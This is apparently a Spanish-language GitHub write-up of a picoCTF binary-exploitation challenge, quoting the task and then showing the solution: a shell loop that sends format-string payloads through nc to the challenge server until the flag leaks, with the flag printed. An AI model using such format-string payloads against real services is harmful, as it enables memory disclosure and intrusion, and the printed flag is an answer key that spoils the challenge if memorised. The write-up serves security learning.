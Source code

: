 ## Descripción 
```
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 65521`
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/flagleak$ wget https://artifacts.picoctf.net/c/91/vuln
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/flagleak$ wget https://artifacts.picoctf.net/c/91/vuln.c
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/flagleak$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 58428 | grep -Ei 'pico|ctf'; done
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}


flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales

[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias